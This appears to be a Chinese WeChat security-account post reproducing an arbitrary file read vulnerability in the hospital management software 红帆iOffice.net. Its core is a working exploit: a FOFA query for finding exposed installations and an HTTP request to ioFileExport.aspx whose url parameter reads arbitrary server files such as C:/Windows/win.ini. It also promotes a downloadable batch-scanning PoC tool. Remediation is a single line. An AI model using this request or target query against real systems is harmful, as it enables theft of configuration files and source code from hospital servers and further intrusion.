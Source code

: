 #  ​红帆iOffice 存在任意文件读取漏洞 附POC

原创 南风徐来 [ 南风漏洞复现文库 ](javascript:void\(0\);)

**南风漏洞复现文库** ![]()

微信号 gh_a9e9b8a80c70

功能介绍 分享各种CVE CNVD CNVD及最新漏洞信息、漏洞复现、漏洞利用工具、漏洞整改等内容，适合安全运维人员，网络安全方面的人交流学习。

____

___发表于_

收录于合集 #漏洞文库 81个

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

## 1\. 红帆iOffice 简介

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

红帆iOffice.net从最早满足医院行政办公需求（传统OA），到目前融合了卫生主管部门的管理规范和众多行业特色应用，是目前唯一定位于解决医院综合业务管理的软件。

## 2.漏洞描述

红帆iOffice.net从最早满足医院行政办公需求（传统OA），到目前融合了卫生主管部门的管理规范和众多行业特色应用，是目前唯一定位于解决医院综合业务管理的软件，是最符合医院行业特点的医院综合业务管理平台，是成功案例最多的医院综合业务管理软件。红帆iOffice.net
ioFileExport.aspx处存在任意文件读取，攻击者可以从其中获取网站路径和源码等敏感信息进一步攻击。

CVE编号:

CNNVD编号:

CNVD编号:

## 3.影响版本

红帆iOffice.net信息管理平台信息化平台

![]()红帆iOffice 存在任意文件读取漏洞

## 4.fofa查询语句

(app="红帆-ioffice" || app="红帆-HFOffice")

## 5.漏洞复现

漏洞链接：http://127.0.0.1/iOffice/prg/set/ioCom/ioFileExport.aspx?url=C:/Windows/win.ini

漏洞数据包：

    
    
    GET /iOffice/prg/set/ioCom/ioFileExport.aspx?url=C:/Windows/win.ini HTTP/1.1  
    Host: 127.0.0.1  
    User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)  
    Accept: */*  
    Connection: Keep-Alive

读取C:/Windows/win.ini 文件

![]()

读取配置文件

![]()

## 6.POC&EXP

关注公众号 南风漏洞复现文库 并回复 漏洞复现64 即可获得该POC工具下载地址：

![]()

本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全

![]()![]()![]()

## 7.整改意见

联系厂商更新补丁：https://www.ioffice.cn/

## 8.往期回顾

[NUUO摄像头存在远程命令执行漏洞
附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484361&idx=1&sn=f9a86578f3ab88b58a81080411664e55&chksm=974b8ecea03c07d879ed85f61c9a2bfefc2e61f3a05d4534e5a94568eb89522821b3a34cf552&scene=21#wechat_redirect)  

[用友U8-Cloud 存在任意文件上传漏洞
附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484349&idx=1&sn=6e04a731795ea303a089509978ea747a&chksm=974b8ebaa03c07ac0fba339a9d349139bc68755e7cd666e10a0a865b19487344e09da98da41f&scene=21#wechat_redirect)  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

